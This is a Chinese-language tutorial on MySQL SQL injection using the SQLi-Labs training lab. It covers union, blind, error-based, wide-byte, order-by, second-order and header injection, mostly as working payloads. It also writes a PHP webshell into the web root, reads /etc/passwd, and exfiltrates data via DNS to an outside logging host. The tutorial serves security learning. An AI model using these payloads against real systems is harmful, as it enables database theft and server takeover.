


## 初始环境
| 环境 | 版本 |
| --- | --- |
| 服务器 | Ubuntu 14.04 |
| web 容器 | Apache2 |
| 数据库 | mysql 5.5.47 |
| 靶场环境（docker） | SQLi-Labs（Mysql） |
| MySQL8 (docker) | mysql8.0.26 |
| MySQL5(docker) | mysql5.5.56 |

MySQL注入相对于其他注入可能对于大家来讲应该是最拿得出手的，在这里使用SQLi-Labs（MySQL）作为环境依赖，以及选择了MySQL8作为支撑新语法特性来展开讨论，本篇只介绍基础的注入知识，只谈针对MySQL该如何注入，如果有更好的注入大法，希望各位讨论
## 联合查询注入
页面将SQL语句返回的内容显示在了页面中(本例中是标题、内容、作者等信息)，这种情况就叫有回显。
对于有回显的情况来说，通常使用联合查询注入法，其作用就是，在原来查询条件的基础上，通过关键字`union` ，`union all`，从而拼接恶意SQL语句，`union`后面的`select` 得到的结果将拼接到前个`select`的结果的后面
> - 若回显仅支持一行数据的话，让`union`前边正常的查询语句返回的结果为空
> - 使用union select进行拼接时，注意前后两个select语句的返回的字段数必须相同，否则无法拼接

`union`，`union all`区别

- `union`: 对两个结果集进行并集操作，不包括重复行，同时进行默认规则的排序
- `union all`: 对两个结果集进行并集操作，包括重复行，不进行排序；
### 注入流程
此处以`sqli-labs Less 1` 举例

1. 首先确定字段数量

使用 `order/group by`语句，通过拼接数字，可确定字段数量，若大于，则页面错误/无内容，若小于/等于，则页面正常。若错误页面与正常页面一致，更换盲注或报错注入
正常页面：

错误页面：


2. 判断页面回显位

根据上述判断的字段数量，使用`union select 1,2,3,x...` 将定义的数字显示在页面上，即可从中判断页面显示的字段位置。
注意：

- 若确定页面有回显，但是页面中并没有我们定义的特殊标记数字出现，可能是页面现在了单行数据输出，我们让前边的select查询条件返回结果为空即可
- 注意一定要拼接够足够的字段数，否则SQL语句报错。PS：此方法也可作为判断前条select语句的方法之一
- 如果union前面的查询条件返回为空的情况下，也没有标记数字，这时候一般是类型出错，导致无法显示在页面，可以将数字更改未null，如下所示


这里在以sqli-labs 的less 1举例说明


3. 通过第2步，找到显位之后，在显示字段位置使用子查询或直接查询，来查询数据。

首先查询当前数据库名`database()`、数据库账号`user()`、数据库版本`version()`等基本信息，再根据不同版本，不同的权限来确定接下来的方法
若MySQL版本 < 5.0
小于5.0，由于缺乏系统库`information_schema`，故通常情况下，无法直接找到表，字段等信息，只能通过猜解的方式来解决
直接猜库名，表名，列名，再使用联合查询，当然也可以使用布尔注入来猜解
若MySQL版本 >= 5.0
我们看以下SQL语句，使用该语句则可以获取所有的数据库，如果不涉及跨库查询，这一步可以省略
```sql
-- sql
select schema_name from information_schema.schemata;
-- inject sql
?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+
```


查表名
```sql
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+
```

查列名
```sql
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
```

查值
```sql
?id=-1' union select 1,2,group_concat(0x23,username,0x23,password) from users--+
```

简单来说，查库名 -> 查表名 -> 查列名 -> 查值
```sql
-- 判断字段数目
order by 
-- 联合查询搜集信息(表中字段数为3，注意字符类型，如 int，String之类的)
union select 1,2,3
-- 查询当前数据库名称
union select 1,2,database();
-- 查询所有数据库
union select 1,2,group_concat(schema_name) from information_schema.schemata;
--查询当前数据库中的所有表名
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema = database();
-- 查询某表的列名
union select 1,2,group_concat(column_name) from information_shcema.columns where table_name = 'student' -- studnet 表示 具体的表名
-- 查询数据
union select 1,2,group_concat(id,name,age) from student;
```
## 盲注
核心：利用逻辑符号/条件函数，让返回的内容/响应时间与正常页面不符
### 布尔盲注
通过页面对永真条件，`or 1=1` 与 永假条件，`and 1=2` 返回的内容是否存在差异，进行判断是否可以进行布尔盲注。通常返回存在/不存在两个结果，就可以判断是否存在布尔盲注
```sql
-- 语句如下，如果condition为真，那么整条语句 where 语句则恒真
select * from users where username=$username and (condition)
```
and 1=1 恒真

and 1=2 恒假

利用这一特性，我们可以构造payload 通过来页面显示情况来获取数据库数据
#### 布尔盲注常用函数

- ascii() 返回指定字符的ascii码值
- count() 计算结果集的数量
- length() 返回指定字符串的长度
- substr/substring(str,pos,length) 返回截取的子字符串
#### 一般流程

- 求闭合字符
- 求当前数据库长度
- 求当前数据库ascii码值
- 求表名的数量
- 求表名的长度
- 求表名的ascii码值
- 求列名的数量
- 求列名的长度
- 求列名的ascii码值
- 求字段的数量
- 求字段的长度
- 求字段的ascii码值
#### 布尔盲注常见语句

- 求数据库长度
```basic
?id=1' and (length(database())=8) --+
?id=1' and (length(database())>7) --+
?id=-1' or (length(database())>7) --+ # 也可以用大于小于来判断
```

- 求数据库名(可以用字符来比对，也可以用ascii来比对)
```basic
?id=1' and (left(database(),1)='s') --+ #从左向右截取一个字符
?id=1' and (left(database(),2)='se') --+ #从左向右截取两个字符
?id=1' and ascii(substr(database(),1,1)) =115 --+ #从第一个字符开始截取一个字符，也就是第一个字符是's',对应的ascii码是115
？id=1' and ascii(substr(database(),2,1)) =101 --+ #从第二个字符开始截取一个字符，也就是第二个字符'e',对应的ascii码是101
?id=1' and ascii(substr(database(),1,1)) <115 --+ #也可以用<>来比较查找
```

- 求当前数据库中当前表的数量
```basic
?id=1' and 4=(select count(table_name) from information_schema.tables where table_schema=database()) --+
?id=1' and 4=(select count(table_name) from information_schema.tables where table_schema='security') --+
```

- 求当前数据库表名的长度
```basic
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),7,1)) --+
#表名的长度就是substr函数中的7-1=6,这里是针对security数据库的第一个表emails
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 1,1),7,1)) --+
#limit 1,1就是security中得到第二个数据库
?id=1' and (length((select table_name from information_schema.tables where table_schema='security' limit 0,1) )=6) --+
#第二种方法使用length来测数据库表名的的长度，通过limit来控制是哪一个表
?id=1' and (length((select table_name from information_schema.tables where table_schema='security' limit 1,1) )=8) --+
```

- 求当前数据库表名
```basic
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=101 --+
格式为：ascii(substr(xxx limit null,1),null,1) ,对递增依次 猜解
#对security数据库中的第一个表的第一个字符进行ascii的猜解
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),2,1))=109 --+
#对security数据库中的第一个表的第二个字符进行ascii的猜解
```

- 求指定表中列的数量
```basic
?id=1' and (select count(column_name) from information_schema.columns where table_name='users')=20 --+
```

- 求对列名的长度
```basic
?id=1' and ascii(substr((select column_name from information_schema.columns where table_name='users' limit 0,1),2,1)) --+
#长度和前面查表名的长度一样，是2-1=1,如果是则返回页面异常，如果不是则返回界面正常，递增测试
方法二： 使用length来判断
?id=1' and length((select column_name from information_schema.columns where table_name='users' limit 0,1))=2 --+
```

- dump 字段的值
```basic
?id=1' and ascii(substr((select username from security.users limit 0,1),1,1))=67--+
?id=1' and ascii(substr((select concat(username,':',password) from security.users limit 0,1),1,1))=68--+
```
盲注一般找到注入点之后，直接上sqlmap，不会手工去dump，如果sqlmap跑不出来，那么该怎么办？
这里就要针对ascii字符集来判断，有一个特别重要的思路，利用&运算来进行按位与运算

```sql
115 => 01110011 (ascii('s'))
256 = 2 ** 0 + 2 ** 1 + 2 ** 2 + ...... + 2 ** 7
2**0 => 00000001 = 1
2**1 => 00000010 = 2
2**2 => 00000100 = 4
2**3 => 00001000 = 8
2**4 => 00010000 = 16
2**5 => 00100000 = 32
2**6 => 01000000 = 64
2**7 => 10000000 = 128

\# 我们将待求解的ascii码值与上述值进行与运算

115 & 1 => 1
115 & 2 => 2
115 & 4 => 0
115 & 8 => 0
115 & 16 => 16
115 & 32 => 32
115 & 64 => 64
115 & 128 => 0

1 + 2 + 0 + 0 + 16 + 32 + 64 + 0 = 115
```


### 时间盲注

通过判断页面返回内容的响应时间差异进行条件判断。
通常可利用的产生时间延迟的函数有：sleep()、benchmark()，还有许多进行复杂运算的函数也可以当做延迟的判断标准、笛卡尔积合并数据表、复杂正则表达式等等。
#### 时间盲注常用函数

- if(1,2,3)：如果1为True，则执行2，否则执行3
- sleep(x)：延迟x秒之后执行
- ascii(char)：将字符转换为对应的ascii码
- substr(str,pos,len)：将字符串从pos位开始截取len长度
- Benchmark(count,exp)： 执行表达式exp，count次（消耗CPU）
- case ... when ... then ... else ... end
#### 时间盲注场景

- 第一种情况：无论输入什么都只显示无信息页面，如登录页面。这种情况下可能只有登录失败页面，错误页面被屏蔽了，并且在没有密码的情况下，登录成功的页面一般情况也不知道。在这种情况下有可能基于时间的SQL注入会有效
- 第二种情况：无论输入什么都只显示正常信息页面。例如，采集登录用户信息的模块页面，采集用户的IP，浏览器类型，referer字段，session字段，无论用户输入什么，都显示正常页面

相关注入手法同布尔盲注，介绍一下相关的函数

- case ... when [条件] then [TRUE 执行的语句] else [FALSE执行的语句]  end
```sql
select * from users where id = 1 and case 1 when 1=1 then sleep(2) else 1 end;
```


- Benchmark(count,exp)
```sql
select BENCHMARK(10000000,md5('a'));
```


- 笛卡尔积
```sql
select * from users where id = 1 and (select count(*) from information_schema.columns A,information_schema.columns B,information_schema.columns C);
```

## 报错注入
服务器开启报错信息返回，也就是发生错误时返回报错信息，通过特殊函数的错误使用使其参数被页面输出。

- 报错函数通常有最长报错输出的限制，面对这种情况，可以进行分割输出。
- 特殊函数的特殊参数运行一个字段、一行数据的返回，使用group_concat等函数聚合数据即可。
### exp()
函数语法：exp(int x)  返回 e ** x 
适用范围：
在mysql>5.5.53时，则不能返回查询结果；
在版本号为5.5.47上可以用来注入：
该函数将会返回e的x次方结果。正常如下图：

e的x次方到x每增加1，其结果都将跨度极大，而mysql能记录的double数值范围有限，一旦结果超过范围，则该函数报错

将0按位取反，`~0`，可以看到取值为`18446744073709551615`，这个值就比709要大很多很多，所以再利用mysql 函数正常取值之后会返回0的特性，那么当函数执行成功，然后按位取反之后得到的值直接造成double型溢出
```sql
select exp(~(select * from (select version())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '5.5.47-0ubuntu0.14.04.1' from dual)))'
```
```sql
?id=1' and exp(~(select * from (select version())x))--+
```

exp()函数套用两层的子查询的原因：

1. 先查询 select user() 这里面的语句，将这里面查询出来的数据作为一个结果集 取名为 a
2. 再 select from a 查询a ,将结果集a 全部查询出来；这里必须使用嵌套，因为不使用嵌套不加select from 无法大整数溢出。
### ExtractValue()
函数语法：`extractvalue(xml_frag,xpath_expr)`
适用范围：5.1.5+
报错原理:
Xpath格式语法书写错误的话，就会报错，如下所示
```sql
mysql> SELECT extractvalue('<a><b>x</b><b>y</b></a>','/a/b') as result;
+--------+
| result |
+--------+
| x y    |
+--------+
```
```sql
 SELECT extractvalue('<a><b>x</b><b>y</b></a>','#username') as result
> 1105 - XPATH syntax error: '#username'
> 时间: 0.001s
```
> 由于此报错注入和updatexml都只能爆最大32位，如果要爆出32位之后的数据，需要借助mid函数进行字符截取从而显示32位以后的数据

mid函数

| 参数 | 描述 |
| --- | --- |
| column_name | 必需。要提取字符的字段 |
| start | 必需。开始位置 |
| length | 可选。要返回的字符数。如果省略，则 MID() 函数返回剩余文本 |

```sql
?id=1' 
and extractvalue(1,
mid(concat(0x23,(SELECT group_concat(table_name) from information_schema.tables where table_schema = database())
,0x23),1,32))--+
```

其他爆库，爆字段，爆数据库值等更改SQL语句即可
### updatexml()
函数语法：`updatexml(XML_document,XPath_String,new_value)`
适用范围：5.1.5+
报错原理:
Xpath格式语法书写错误的话，就会报错，同extractValue()
```sql
-- payload
updatexml(1,concat(0x23,user(),0x23),1)
?id=1' and updatexml(1,mid(concat(0x23,(SELECT group_concat(table_name) from information_schema.tables where table_schema = database()),0x23),1,32),1)--+
```

### floor报错
相关函数：

- floor() 函数，向下取整
- rand() 函数，取随机数，若有参数x，则每个x对应一个固定的值，如果连续多次执行会变化，但是可以预测
- floor( rand( 0 ) * 2 ) 产生的序列为011011...


报错原理：
利用数据库表主键不能重复的原理，使用 GROPU BY 分组，产生主键key冗余，导致报错

- GROPU BY 原理

已知表users如下

| ID | NAME |
| --- | --- |
| 1 | AA |
| 2 | AA |
| 3 | BB |

sql语句
```sql
select count(*) ,name from uses group by name; 
```
在进行分组运算的时候会根据name属性，创建一个虚拟表，从上至下扫描，当扫描到第一行NAME === AA 的时候，当前虚拟表没有该字段，那么插入此虚拟表，count = 1

| count | name |
| --- | --- |
| 1 | AA |

当扫描到第二行 NAME === AA 的时候
当前虚拟表存在该字段，那么count + 1

| count | name |
| --- | --- |
| 2 | AA |

当扫描到第三行 NAME === BB 的时候
当前虚拟表不存在该字段，执行插入，count = 1

| count | name |
| --- | --- |
| 2 | AA |
| 1 | BB |

那么利用` floor( rand( 0 ) * 2) ` 这个函数的返回值，进行分组，因为序列为`011011...`
那么构建SQL语句
```sql
SELECT COUNT(*),floor(RAND(0)*2) as x from users GROUP BY x
```
查询第一条记录，别名x 产生 键值0，当键值 0 不存在虚拟表时，执行插入,此时别名x是一个函数，是变量，在执行插入时，按照GROUP BY分组之时 又要执行floor函数，得到1 ，故向虚拟表中插入键值1，count = 1

| COUNT | x |
| --- | --- |
| 1 | 1 |

查询第二条记录，别名x产生键值1，虚拟表中存在1，则令count + 1 = 2

| COUNT | x |
| --- | --- |
| 2 | 1 |

查询第三条记录，别名x产生键值0，键值0不存在临时表，执行插入，别名x再次执行得键值1，由于1存在于临时表，那么插入之后如下表所示

| COUNT | x |
| --- | --- |
| 2 | 1 |
| 1 | 1 |

由于数据库主键唯一性，现在临时表中存在两个键值为1，主键冗余，所以报错
由于数据库报错会将报错原因展示出来，故利用报错来实现注入
由上知，要保证floor报错注入，那么必须 保证数据库必须大于三条数据

- 取数据库
```sql
SELECT * FROM users WHERE id = 1 AND (SELECT 1 from 
(SELECT count(*),concat(0x23,
database(),
0x23,floor(rand(0)*2)) as x from information_schema.`COLUMNS` GROUP BY x) 
as y)
```
由于 and 后要跟1或者0，所以构造sql语句select 1 ，其中 concat()函数是用来连接字符串的函数，因为information_schema.'columns'的数据是大于3条，所以会出现报错，报错结果或将别名x的信息展示出来，展示信息为#(数据库名称)#1冗余


- 爆表
```sql
SELECT * FROM users WHERE id = 1 AND (SELECT 1 from 
(SELECT count(*),concat(0x23,
(SELECT table_name from information_schema.`TABLES` WHERE table_schema = database() LIMIT 0,1),
0x23,floor(rand(0)*2)) as x 
from information_schema.`COLUMNS` GROUP BY x) 
as y)
```

### 几何函数

- GeometryCollection：id=1 AND GeometryCollection((select * from (select* from(select user())a)b))
- polygon()：id=1 AND polygon((select * from(select * from(select user())a)b))
- multipoint()：id=1 AND multipoint((select * from(select * from(select user())a)b))
- multilinestring()：id=1 AND multilinestring((select * from(select * from(select user())a)b))
- linestring()：id=1 AND LINESTRING((select * from(select * from(select user())a)b))
- multipolygon() ：id=1 AND multipolygon((select * from(select * from(select user())a)b))


### 不存在的函数
随便使用不存在的函数，可能会得到当前所在数据库的名称

### BIGINT
当mysql数据库的某些边界数值进行数值运算时，会报错的原理。
如~0得到的结果：18446744073709551615
若此数参与运算，则很容易会错误。
```sql
select !(select * from(select user())a)-~0;
```
```sql
select * from users where id = 1 and (select !(select * from(select mid(group_concat(table_name),21,32) from information_schema.tables where table_schema = database())a)-~0);
```

### name_const()
报错原理：
mysql列名重复会导致报错,通过name_const制造一个列
我们可以利用mysql列名重复会导致报错这个原理，配合笛卡尔积查询得到列名
局限：仅可取数据库版本信息
```sql
select * from users where id = 1 and 
(select * from(select name_const(version(),0x1),name_const(version(),0x1))a);
```

### uuid
适用版本：8.0.x
```sql
select * from users where id = 1 and UUID_TO_BIN((SELECT password FROM users WHERE id=1));
SELECT BIN_TO_UUID((SELECT password FROM users WHERE id=1));
```


### join using
通过系统关键词join可建立两个表之间的内连接。
通过对想要查询列名的表与其自身建立内连接，会由于冗余的原因(相同列名存在)，而发生错误。
并且报错信息会存在重复的列名，可以使用 USING 表达式声明内连接（INNER JOIN）条件来避免报错。
```sql
select * from(select * from users a join (select * from users)b)c;
select * from(select * from users a join (select * from users)b using(username))c;
select * from(select * from users a join (select * from users)b using(username,password))c
```

### GTID()
原理：参数格式不正确
```sql
select gtid_subset(user(),1);
select gtid_subtract((select * from(select user())a),1);
```

## 宽字节注入
举个例子，以SQLi-Labs Less33为例
使用了GBK编码会认为两个字符为一个汉字，所以可以使用一些字符和转义过后多出来的\组合两个字符，使得数据库不识别字符，对单引号、双引号的转义失败
形成过程
当PHP连接MYSQL时，当设置character_set_client = gbk 时会导致GBK编码转换的问题，当注入的参数里带有%df(%bf)时，在魔术引号开关或者addslashes() 函数的作用下，会将%df%27转换为%df%5c%27，此时%df%5c在会解析成一个汉字，从而“吃掉”反斜杠，单引号因此逃逸出来闭合语句
根本原因
character_set_client（客户端字符集）和 character_set_connection（连接层的字符集）不同，或转换函数如iconv,mb_convert_encoding使用不当

`addslashes`函数将会把接收到的id的字符进行转义处理。如：

- 字符`'`、`"`、`\`、NULL前边会被添加上一条反斜杠`\`作为转义字符
- 多个空格被过滤成一个空格

当id的字符串被转义之后，就会出现如下所示的SQL语义（查询id'#的数据）
```sql
select * from users where id = '1\'#';
```
看上去没有办法注入，但是我们看下面的代码：
```php
$conn->query("set names 'gbk';");
// => SQL
SET character_set_client ='gbk';
SET character_set_results ='gbk';
SET character_set_connection ='gbk';
```
payload1
```sql
?id=1%df%27 and 1=1 %23
```
 拼接得到的sql语句为
```sql
SELECT * FROM users WHERE id='1�\' and 1=1-- ' LIMIT 0,1
```

payload2
为了避免漏洞，网站一般会设置UTF-8编码，然后进行转义过滤。但是由于一些不经意的字符集转换，又会导致漏洞
使用set name UTF-8指定了utf-8字符集，并且也使用转义函数进行转义。有时候，为了避免乱码，会将一些用户提交的GBK字符使用iconv()函数先转为UTF-8，然后再拼接SQL语句
测试语句：
```php
?id=1%e5%5c%27 and 1=1 --+
```
`%e5%5c` 是gbk编码，转换为UTF-8编码是`%e9%8c%a6`
`%e5%5c%27`首先从gbk编码经过addslashes函数之后变成`%e5%5c%5c%5c%27`，再通过iconv()将其转换为UTF-8编码，`%e9%8c%a6%5c%5c%27` ，其中`%e9%8c%a6`是汉字，`%5c%5c%27`解码之后是`\\'`第一个`\`将第二个`\`转义，使得%27单引号逃逸，成功闭合语句

## order by 注入
order by 注入通常出现在排序中，前端展示的表格，某一列需要进行升序或者降序排列，或者做排名比较的时候常常会用到`order by`排序，`order by`在select语句中，紧跟在`where [where condition]`后，且order by 注入无法使用预编译来防御，由于order by 后面需要紧跟`column_name`，而预编译是参数化字符串，而`order by`后面紧跟字符串就会提示语法错误，通常防御order by 注入需要使用白名单的方式。
以SQLi-Labs Less46 为例
通过order by 列名，根据排序返回的情况来判断是否存在，或者使用超大数，构成SQL语句错误
```basic
?sort=rand()
?sort=rand(1=1)
?sort=rand(1=2)
?sort=9999
```


基于报错的注入来判断

- 返回多条记录导致报错
```basic
?sort=(select 1 union select 2)
```
```basic
?sort=IF(1=1,1,(select+1 from information_schema.tables)) //正确
?sort=IF(1=2,1,(select 1 from information_schema.tables)) //错误
```

- regexp
```basic
?sort=(select 1 regexp if(1=1,1,0x00)) // 正确
?sort=(select 1 regexp if(1=2,1,0x00)) // 错误
```

- 报错注入函数

见报错注入
基于时间盲注来判断
如果直接使用sleep函数，如果表里的数据有n条，sleep(2)，会使查询时间为2*n，会对服务器造成拒绝服务攻击，一般不建议在order by 处使用时间盲注来判断以及注入数据
数据猜解
以猜解user() 为例，由于只能一个字符一个字符的猜解，可以利用`SUBSTR`,`SUBSTRING`,`MID`,以及`left`和`right`可以精准分割出每一位子串。然后就是比较操作了可以利用`=`,`like`,`regexp`等
利用手法可见布尔盲注，通过`if`语句，来对字段进行排列，通过这种差别来完成注入
## 二次注入
二次注入就是攻击者构造的恶意payload首先会被服务器存储在数据库中，在之后取出数据库在进行SQL语句拼接时产生的SQL注入问题。
以SQLi-Labs 24 为例
创建用户执行insert操作的关键代码，mysql_escape_string对传入的参数进行了转义，导致无法sql注入
```php
$username=  mysql_escape_string($_POST['username']) ;
$pass= mysql_escape_string($_POST['password']);
$re_pass= mysql_escape_string($_POST['re_password']);
...
if ($pass==$re_pass)
{
  # Building up the query........
  $sql = "insert into users ( username, password) values(\"$username\", \"$pass\")";
}
```
登录的关键代码，这里将登录之后的用户名给了session
```php
function sqllogin(){
   $username = mysql_real_escape_string($_POST["login_user"]);
   $password = mysql_real_escape_string($_POST["login_password"]);
   $sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
   $res = mysql_query($sql) or die('You tried to be real smart, Try harder!!!! :( ');
   $row = mysql_fetch_row($res);
   if ($row[1]) {
	  $_SESSION["username"] = $login;
		setcookie("Auth", 1, time()+3600);  /* expire in 15 Minutes */
		header('Location: logged-in.php');
   } else {
      return 0;
   }
}
```
修改密码关键的代码，从session里取用户名，将其带入update SQL语句中
```php

$username= $_SESSION["username"];
$curr_pass= mysql_real_escape_string($_POST['current_password']);
$pass= mysql_real_escape_string($_POST['password']);
$re_pass= mysql_real_escape_string($_POST['re_password']);
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";

```
在这里可以看到，SQL注入是存在于修改密码处，session['username'] 可控，当用户登录之后，就将用户名存起来了，而用户名又是用户自定义的，当自定义的用户名可以更改SQL语义的时候，就可以完成注入
当在登录，注册处，都无法注入成功的时候，构造用户名`admin'#`，当被session保存下来，再进行修改密码的时候，此时SQL语句如下所示
```sql
UPDATE users SET PASSWORD='$pass' where username='admin'# and password='$curr_pass' 
```
用于判断用户当前密的的语义被注释，导致不用输入用户当前密码，就可以更改admin用户的密码
## 堆叠注入
简单的说，由于分号;为MYSQL语句的结束符。若在支持多语句执行的情况下，可利用此方法执行其他恶意语句，如RENAME、DROP等。
注意，通常多语句执行时，若前条语句已返回数据，则之后的语句返回的数据通常无法返回前端页面。建议使用union联合注入，若无法使用联合注入，可考虑使用RENAME关键字，将想要的数据列名/表名更改成返回数据的SQL语句所定义的表/列名 。
## HTTP 头部注入
HTTP头部注入其实三大注入方法没什么区别，主要是补一下场景
先了解一下常见的HTTP头
```basic
Accept : 浏览器能够处理的内容类型
Accept-Charset : 浏览器能够显示的字符集
Accept-Encoding : 浏览器能处理的压缩编码
Accept-Language : 浏览器当前设置的语言
Connection : 浏览器与服务器之间的连接
cookie : 当前页面设置的cookie
Host : 发出请求的页面所在域
Referer : 发出请求的页面URL
User-agent : 浏览器用户代理字符串
Server : web服务器表明自己是什么软件及版本信息
```
HTTP 头注入是指从HTTP头中获取数据，而未对获取到的数据进行过滤，从而产生的注入。HTTP头注入常常发生在程序采集用户信息的模块中。例如:
```basic
X-Forwarded-For/Client-IP 用户IP
User-Agent 用户代理的设备信息
Referer 告诉服务器该网页是从哪个页面链接过来的
Cookie  标识用户的身份信息
```
Cookie型注入是通过Cookie进行数据提交的，其常见的情况有验证登录、$_REQUEST获取参数。验证登录是将用户的登录信息放入Cookie来做权限验证的一种方法
## 文件读/写
Mysql是很灵活的，它支持文件读/写功能。在讲这之前，有必要介绍下什么是`file_priv`和`secure-file-priv`。
简单的说：`file_priv`是对于用户的文件读写权限，若无权限则不能进行文件读写操作，可通过下述payload查询权限。
```sql
select file_priv from mysql.user where user=$USER host=$HOST;
```
`secure-file-priv`是一个系统变量，对于文件读/写功能进行限制。具体如下：

- 无内容，表示无限制。
- 为NULL，表示禁止文件读/写。
- 为目录名，表示仅允许对特定目录的文件进行读/写。

**5.5.53本身及之后的版本默认值为NULL，之前的版本无内容**。
三种方法查看当前`secure-file-priv`的值：
```sql
select @@secure_file_priv;
select @@global.secure_file_priv;
show variables like "secure_file_priv";
```
修改`secure-file-priv`值：

- 通过修改my.ini文件，添加：secure-file-priv=
- 启动项添加参数：mysqld.exe --secure-file-priv=
### 读文件
在确定了用户有读，写权限之后，一般使用`load_file()`函数来读取文件内容
```sql
select load_file(file_path); -- file_path为绝对路径
```

```sql
load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n'; --读取服务端上的文件
```

```sql
load data local infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n'; -- 读取客户端上的文件
```
限制：

- 前两种需要secure-file-priv无值或为有利目录。
- 都需要知道要读取的文件所在的绝对路径。
- 要读取的文件大小必须小于max_allowed_packet所设置的值
### 写文件
常规写文件的操作有如下字句：
```sql
select 1,"<?php @assert($_POST['t']);?>" into outfile '/var/www/html/1.php';
select 2,"<?php @assert($_POST['t']);?>" into dumpfile '/var/www/html/1.php';
```
那么`into outfile`和`into dumpfile`有什么区别呢？

- into outfile 是导出所有数据，适合导出库
- into dumpfile 只能导出一行数据

限制：

- secure-file-priv无值或为可利用的目录
- 需知道目标目录的绝对目录地址
- 目标目录可写，mysql的权限足够。
### 日志包含
由于mysql在5.5.53版本之后，secure-file-priv的值默认为NULL，这使得正常读取文件的操作基本不可行。我们这里可以利用mysql生成日志文件的方法来绕过。
mysql日志文件的一些相关设置可以直接通过命令来进行：
```sql
//请求日志
mysql> set global general_log_file = '/var/www/html/1.php';
mysql> set global general_log = on;
//慢查询日志
mysql> set global slow_query_log_file='/var/www/html/2.php'
mysql> set global slow_query_log=1;
//还有其他很多日志都可以进行利用
...
```
之后让数据库执行满足记录条件的恶意语句即可，具体可查看phpmyadmin通过日志写入webshell相关的教程
限制：

- 权限够，可以进行日志的设置操作
- 知道目标目录的绝对路径
## DNSlog外带数据盲注
DNSLOG，简单的说，就是关于特定网站的DNS查询的一份记录表。若A用户对B网站进行访问/请求等操作，首先会去查询B网站的DNS记录，由于B网站是被我们控制的，便可以通过某些方法记录下A用户对于B网站的DNS记录信息。此方法也称为OOB注入。
如何用DNSLOG带出数据？若我们想要查询的数据为：aabbcc，那么我们让mysql服务端去请求aabbcc.evil.com，通过记录evil.com的DNS记录，就可以得到数据：aabbcc。

应用场景：

- 三大注入无法使用
- 有文件读取权限及secure-file-priv无值。
- 不知道网站/目标文件/目标目录的绝对路径
- 目标系统为Windows

payload: load_file(concat('\\\\',(select user()),'.xxxx.ceye.io\xxxx'))
为什么Windows可用，Linux不行？这里涉及到一个叫UNC的知识点。简单的说，在Windows中，路径以\\开头的路径在Windows中被定义为UNC路径，相当于网络硬盘一样的存在，所以我们填写域名的话，Windows会先进行DNS查询。但是对于Linux来说，并没有这一标准，所以DNSLOG在Linux环境不适用。注：payload里的四个\\\\中的两个\是用来进行转义处理的。
